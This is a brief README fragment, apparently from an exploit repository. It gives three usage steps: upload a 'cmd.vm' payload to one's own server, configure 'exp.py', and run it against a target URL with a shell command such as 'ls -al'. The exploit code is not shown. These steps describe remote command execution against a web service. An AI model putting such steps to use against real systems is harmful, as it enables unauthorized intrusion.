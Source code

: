 # Use step:

1.upload cmd.vm to your server.

2.set exp.py--->_exec---->filename

3.python exp.py http[s]://xxx.com:8080/ "ls -al"
